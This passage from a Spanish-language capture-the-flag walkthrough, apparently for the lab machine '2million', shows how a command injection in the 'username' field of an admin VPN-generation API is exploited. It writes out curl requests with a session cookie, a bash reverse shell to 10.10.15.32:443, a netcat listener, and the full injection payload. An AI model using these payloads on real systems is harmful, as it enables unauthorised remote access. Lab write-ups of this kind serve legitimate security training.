 Ahora vemos que el mensaje no es de acceso no autorizado, si no de indicar el usuario, por lo que igual que anteriormente indicaremos que usuario somos.

![](/assets/images/Imagenes/Pasted image 20240923141205.png)

Vemos que ahora la respuesta no está en json, por que quitaremos ese tipo de output.

```shell
curl -s -X POST 'http://2million.htb/api/v1/admin/vpn/generate' -H 'Cookie: PHPSESSID=6kn6f96bdiunm63k8pb38i8rga' -H 'Content-Type: application/json' -d '{"username":"adri"}'
```

![](/assets/images/Imagenes/Pasted image 20240923141301.png)

Y con esto nos habría generado unas credenciales de conexión por vpn. 

## Explotación

Sin embargo, no está claro de que forma se genera este archivo, ya que si probamos a hacerlo con otro usuario inventado también se crea, es decir, no se asegura de que este existe y tan solo se genera en base al contenido de usuario.

Con esto posible que podamos inyectar código en ese parámetro, de modo que al intentar generar un nuevo archivo de conexión se ejecute el comando de creación de la vpn con un parámetro que introduzcamos en ese campo.

Si probamos con un nombre de usuario, cortado por **;**, para indicar el siguiente comando, y  **whoami;** veremos que no sucede nada, ya que es posible que haya más parámetro después del usuario, por lo que para anular estos pondremos **#**, de modo que se conviertan en comentario y no se ejecuten.

![](/assets/images/Imagenes/Pasted image 20240923142214.png)

Vemos que efectivamente se ejecuta y nos da el nombre de usuario, por lo que a través de esto podemos realizar una reverse shell a través de bash.

```shell
bash -c "bash -i  >& /dev/tcp/10.10.15.32/443 0>&1\";"
```

Antes de ejecutar el comando nos pondremos en escucha con netcat por el puerto que hayamos indicado, en este caso 443, y ejecutaremos el comando.

```shell
nc -lvnp 443
```

```shell
curl -s -X POST 'http://2million.htb/api/v1/admin/vpn/generate' -H 'Cookie: PHPSESSID=6kn6f96bdiunm63k8pb38i8rga' -H 'Content-Type: application/json' -d '{"username":"test; bash -c \"bash -i >& /dev/tcp/10.10.15.32/443 0>&1\";"}'
```

Con esto estaremos dentro de la máquina.

![](/assets/images/Imagenes/Pasted image 20240923143218.png)
